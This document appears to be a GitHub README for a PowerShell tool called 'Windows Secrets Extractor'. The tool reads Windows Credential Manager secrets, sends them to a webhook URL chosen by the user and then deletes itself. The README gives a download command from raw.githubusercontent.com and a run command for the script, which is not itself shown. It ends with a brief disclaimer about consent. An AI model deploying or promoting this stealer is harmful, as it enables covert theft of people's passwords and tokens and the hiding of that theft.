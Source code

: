 # Windows Secrets Extractor


### Requirements
- PowerShell **CredentialManager** Module : ``Install-Module -Name CredentialManager``
- (Optionnal) Python 3.X


### Before Usage
- Adapt line 1 and enter your WebHook URL.

### Usage
1. Download the script :

```
Invoke-WebRequest https://raw.githubusercontent.com/danglock/Windows-Secrets-Extractor/main/extractor.ps1 -outfile $env:USERPROFILE\extractor.ps1
```

3. Run the Script :

```
cd $env:USERPROFILE;.\extractor.ps1
```

Note: the script will auto-destroy after execution

***
Be careful, I am not responsible for your use of this script.
Please do not use it against machines whose owner has not given you their consent
